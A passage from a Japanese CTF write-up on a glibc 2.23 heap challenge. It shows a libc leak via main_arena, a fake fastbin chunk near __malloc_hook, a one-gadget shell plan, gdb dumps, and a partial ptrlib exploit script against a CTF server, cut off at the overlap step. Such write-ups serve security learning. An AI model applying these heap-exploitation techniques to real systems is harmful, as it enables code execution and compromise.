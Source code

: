 後は`main_arena`のアドレス(+α)を引いてやればlibcのアドレスが取れます。
```
$ main_arena 74ca69ada4429ae5fce87f7e3addb56f1b53964599e8526244fecd164b3c4b44_libc.so.6
[+]libc version : glibc 2.23
[+]build ID : BuildID[sha1]=1ca54a6e0d76188105b12e49fe6b8019bf08803a
[+]main_arena_offset : 0x3c4b20
```

さて、ここからシェルを奪う必要があります。
TCacheが有効なら割と簡単なのですが、今回はfastbinなので`__malloc_hook`をone gadget rceのアドレスに書き換えてやります。
`__malloc_hook`のちょっと前にあるアドレスが`0x7f....`なので、これを`prev_inuse`が立っている適切なサイズとして扱うことができます。
こんな感じです。
```
0x7f9ad5372c10 <_IO_wide_data_0+304>:	0x60	0xed	0x36	0xd5	0x9a	0x7f	0x00	0x00
0x7f9ad5372c18:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0x7f9ad5372c20 <__memalign_hook>:	0x10	0xe4	0x01	0xd5	0x9a	0x7f	0x00	0x00
0x7f9ad5372c28 <__realloc_hook>:	0x90	0xf7	0x01	0xd5	0x9a	0x7f	0x00	0x00
0x7f9ad5372c30 <__malloc_hook>:	0x40	0xda	0x01	0xd5	0x9a	0x7f	0x00	0x00
```
したがって、`__malloc_hook - 27`にchunk sizeが来るようにすればOKです。

なんかサイズ0x20でやるとエラーになったので0x60のサイズで試したら上手くいきました。
（理由はよくわからない。）
```
from ptrlib import *
from time import sleep


def sice_deet(size, data):
    sock.recvuntil("4. Exit")
    sock.sendline("1")
    sock.sendline(str(size))
    sock.send(data)

def observe_deet(index):
    sock.recvuntil("4. Exit")
    sock.sendline("2")
    sock.recvuntil("Which deet would you like to view?")
    sock.recvuntil("> ")
    sock.sendline(str(index))
    return sock.recvline().rstrip()

def destroy_deet(index):
    sock.recvuntil("4. Exit")
    sock.sendline("3")
    sock.sendline(str(index))

libc = ELF("74ca69ada4429ae5fce87f7e3addb56f1b53964599e8526244fecd164b3c4b44_libc.so.6")
sock = Socket("p1.tjctf.org", 8002)
#sock = Socket("localhost", 8002)
libc_main_arena = 0x3c4b20
delta = 0x58
libc_one_gadget = 0xf1147

# leak heap addr
sice_deet(0x20, b"A" * 0x20) # 0
sice_deet(0x20, b"B" * 0x20) # 1
destroy_deet(1)
destroy_deet(0)
data = observe_deet(0)
addr_heap = u64(data[:8])
dump("addr heap = " + hex(addr_heap))

# overlap
```